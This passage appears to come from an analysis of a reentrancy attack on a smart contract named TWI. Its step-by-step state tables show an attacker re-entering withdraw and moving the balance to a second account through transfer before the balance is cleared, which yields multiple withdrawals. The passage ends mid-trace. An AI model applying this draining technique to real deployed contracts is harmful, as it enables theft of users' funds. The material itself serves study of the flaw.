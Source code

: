The answer is no. The maximum withdraw is triple.

Is a short original attack possible?

```
  value    | totalSupply |P.val|  P  | R | Ops                 | Trace
-----------+-------------+-----+-----+---+---------------------+-------------------------------------
  1000        1000          2     0    0  [value+2,P.val-2]    | P: twi.deposit.value(2)(2)
  1002        1000          0     0    0  [P+2]                |   TWI: balanceOf[P] += amount
  1002        1000          0     2    0  [totalSupply+2]      |   TWI: totalSupply += amount
  1002        1002          0     2    0  []                   |   TWI: checkInvariants() // suceeds
  1002        1002          0     2    0  []                   | P: twi.withdraw
  1002        1002          0     2    0  []                   |   TWI: balance = balanceOf[P]    (== 2)
  1002        1002          0     2    0  [value-2,P.val+2]    |   TWI: P.call.value(balance)()
  1000        1002          2     2    0  [value+2]            |     A.transfer.value(2)(raceToEmpty,2)
  1002        1002          0     2    0  [R+2]                |       TWI: balanceOf[R] += value
  1002        1002          0     2    2  [P-2]                |       TWI: balanceOf[P] -= value
  1002        1002          0     0    2  []                   |       TWI: checkInvariants() // succeeds
  1002        1002          0     0    2  []                   |     P: return
  1002        1002          0     0    2  [totalSupply-2]      |   TWI: totalSupply -= balance
  1002        1000          0     0    2  [P=0]                |   TWI: balanceOf[P] = 0 // does nothing
  1002        1000          0     0    2  []                   |   TWI: checkInvariants // succeeds
  1002        1000          0     0    2
```

Hmmm, not nearly as good but it still works. Should allow a double withdraw.

Using all this data I'd like to make the following conjecture:

    number of withdraws possible = total withdraw calls + 1

Let's look at 3 withdraw calls before transfer

```
  value    | totalSupply |P.val|  P  | R | Ops                 | Trace
-----------+-------------+-----+-----+---+---------------------+-------------------------------------
  1000        1000          2     0    0  [value+2,P.val-2]    | P: twi.deposit.value(2)(2)
  1002        1000          0     0    0  [A+2]                |   TWI: balanceOf[P] += amount
  1002        1000          0     2    0  [totalSupply+2]      |   TWI: totalSupply += amount
  1002        1002          0     2    0  []                   |   TWI: checkInvariants() // suceeds
  1002        1002          0     2    0  []                   | P: twi.withdraw
  1002        1002          0     2    0  []                   |   TWI: balance = balanceOf[P]    // == 2
  1002        1002          0     2    0  [value-2,P.val+2]    |   TWI: P.call.value(balance)()
  1000        1002          2     2    0  []                   |     P: twi.withdraw()
  1000        1002          2     2    0  []                   |       TWI: balance = balanceOf[P]  // ==2
  1000        1002          2     2    0  [value-2,P.val+2]    |       TWI: P.call.value(balance)()
   998        1002          4     2    0  []                   |         P: twi.withdraw()
   998        1002          4     2    0  []                   |           TWI: balance = balanceOf[P] // == 2
   998        1002          4     2    0  [value-2,P.val+2]    |           TWI: P.call.value(balance)()
   996        1002          6     2    0  [value+6]            |             A.transfer.value(6)(raceToEmpty, 2)
  1002        1002          0     2    0  [R+2]                |               TWI: balanceOf[R] += value
  1002        1002          0     2    2  [P-2]                |               TWI: balanceOf[P] -= value
```